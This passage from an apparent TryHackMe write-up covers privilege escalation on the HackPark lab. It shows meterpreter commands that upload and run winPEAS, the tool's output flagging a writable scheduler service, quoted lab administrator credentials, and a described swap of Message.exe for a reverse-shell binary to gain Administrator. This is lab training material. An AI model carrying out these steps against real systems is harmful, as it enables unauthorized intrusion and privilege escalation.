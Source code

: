 Uploading and running `winPEAS`:
```
meterpreter> upload winPEASx86.exe
meterpreter> load powershell
meterpreter> powershell_shell

PS> .\winPEASx86.exe > winpeas.txt
PS> exit
PS> meterpreter > download winpeas.txt
```

Read/search the results:
```bash
more winpeas.txt
cat winpeas.txt | grep -i "<search>"
```
`more` is nice for this as it will use the shell syntax highlighting/colours, making it easier to read. The file is often extremely long and hard to read using `cat` or similar.  

This highlights a possibly vulnerable service:
```
=================================================================================================

WindowsScheduler(Splinterware Software Solutions - System Scheduler Service)[C:\PROGRA~2\SYSTEM~1\WService.exe] - Auto - Running
File Permissions: Everyone [WriteData/CreateFiles]
Possible DLL Hijacking in binary folder: C:\Program Files (x86)\SystemScheduler (Everyone [WriteData/CreateFiles])
System Scheduler Service Wrapper
=================================================================================================
```

It also finds some AutoLogon credentials:
```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found
    DefaultUserName               :  administrator
    DefaultPassword               :  4q6XvFES7Fdxs
```

#### Privilege escalation

The hackpark room wants us to exploit the service, so I will ignore the AutoLogon credentials.

Looking through the logs in `C:\Program Files (x86)\SystemScheduler` we can see its calling `Message.exe` as administrator. We can use our `msfvenom_reverse_shell.exe` we created earlier to gain a more stable reverse shell to replace `Message.exe`, and on the next scheduler cycle it will be run as an `Administrator`. 

Restart the listener we had earlier & wait for the next cycle (seems to be once every 1-2 minutes). This will give us a reverse shell as the `Administrator` account. From here we can gather the flags on both desktops and we've already ran `winPEAS` and gathered the other required information.

### SteelMountain [TryHackMe]

Attacking a Windows based machine.
